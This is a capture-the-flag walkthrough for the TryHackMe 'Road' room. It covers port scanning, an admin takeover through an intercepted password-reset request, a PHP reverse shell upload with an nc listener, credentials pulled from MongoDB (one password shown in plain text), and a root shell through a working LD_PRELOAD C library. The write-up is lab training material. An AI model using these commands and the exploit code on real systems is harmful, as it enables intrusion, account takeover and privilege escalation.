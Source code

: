 # Road

**Room Link:** [https://tryhackme.com/room/road](https://tryhackme.com/room/road)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





I go to the /v2/ directory and it forwards me a login, I then create a user.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





Under profile it tells us the admin email. admin@sky.thm

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



There is a page that allows us to update our password, I try with my account with burp running to intercept.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



I change my email to admin and it seems to work

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



I can login as admin

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Under profile there is a page that accepts uploads for profile pictures but there doesn't seem to be any filtering&#x20;



**Kali**

```
curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -o shell.php
```

Just changed the IP part.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From the source we can see a place where the images are uploaded to

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

directory listing is disabled but we know the name of the file, it doesn't change the name

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## TCP/27017 - Mongo

**Victim**

```
ss -ltp
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
mongo
```



**Victim(mongo)**

```
show dbs
use backup
show collections
db.user.find();
exit
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
su webdeveloper
Password: BahamasChapp123!@#
```

**Victim(webdeveloper)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(webdeveloper)**

```
cd /home/webdeveloper/
vi preload.c
```



**preload.c**

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```



**Victim(webdeveloper)**

```
gcc -fPIC -shared -o preload.so preload.c -nostartfiles
sudo LD_PRELOAD=/home/webdeveloper/preload.so /usr/bin/sky_backup_utility
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

